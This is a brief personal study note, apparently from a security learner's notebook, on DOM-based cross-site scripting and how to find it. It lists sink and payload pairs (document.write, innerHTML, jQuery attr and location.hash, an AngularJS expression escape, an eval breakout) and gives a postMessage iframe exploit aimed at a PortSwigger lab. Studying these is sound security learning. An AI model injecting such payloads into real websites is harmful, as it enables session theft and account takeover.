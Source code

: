 [[XSS|XSS]]
#xss
It's like [[Reflected XSS]], but the payload doesnt go though server.

TODO: more details and examples

**Automated search**: DOM Invader in burp browser extension.

##### How to find
1. Search for entry points like `location.search`. Inject a random payload into it.
2. Grep the response HTML for used payload.
3. Adjust payload to execute it

**sink / payload**:
* `document.write` / `<svg onload=alert(1) />`
* `innerHTMl=` /  `<img src=x onerror=alert(1) />` 
	* or iframe tag bc script tag, svg onload wont work
* [[jquery]] `attr()` / `?returnUrl=javascript:alert(document.domain)`
* jquery `$(location.hash)` / `<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">` 
* `ng-app` / `{{$on.constructor('alert(1)')()}}`
* ```eval('var result = {"results":[],"searchTerm":+payload+"}';')```   /  `\"-alert(1)}//`


**List of sinks**: https://portswigger.net/web-security/cross-site-scripting/dom-based#which-sinks-can-lead-to-dom-xss-vulnerabilities


##### iframe messages example
```js
window.addEventListener('message', function(e) {
	document.getElementById('ads').innerHTML = e.data;
})
```

```html
<iframe style="width: 1000px;height: 500px;" src="https://0a3f00cc04e03997843386a000f0009b.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=x onerror=print() />','*')" />
```





















